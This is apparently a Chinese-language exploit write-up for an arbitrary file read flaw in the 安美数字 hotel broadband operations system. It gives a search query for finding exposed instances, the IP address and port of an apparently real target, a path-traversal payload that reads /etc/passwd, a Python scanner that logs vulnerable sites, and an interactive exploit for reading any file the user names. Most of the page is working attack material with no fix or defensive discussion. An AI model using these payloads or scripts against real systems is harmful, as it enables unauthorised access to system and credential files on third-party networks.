 ## 一、资产搜索

```
app="安美数字-酒店宽带运营系统"
```

## 二、网站测试

```
https://219.159.104.201:9898
```

## 三、验证漏洞

```
/user/weather.php?Lang=../../../etc/passwd
```

![image-20240904211021014](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904211021014.png)

## 四、POC

```
def poc(target):
    payload = "/user/weather.php?Lang=../../../etc/passwd"
    try:
        res1 = requests.get(target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(target+payload,verify=False,timeout=5)
            res3 = json.loads(res2.text)
            if "root" in res3['CreatTime']:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    print(f"该网站[+]{target}存在任意文件读取漏洞")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请重试")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    payload = "/user/weather.php?Lang=../../.."
    while True:
        cmd = input("请输入要查看的文件，从/开始(q退出)\n>>>>>>>>>>>>>>")
        if cmd == 'q':
            exit()
        res1 = requests.get(target, verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(target + payload + cmd, verify=False,timeout=5)
            res3 = json.loads(res2.text)
            if res3['CreatTime'] == '':
                print("该文件不存在，请重新输入！！")
            else:
                print(res3)
```

## 六、测试结果

![](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904213927247.png)

![image-20240904213834925](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904213834925.png)

![image-20240905182811850](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240905182811850.png)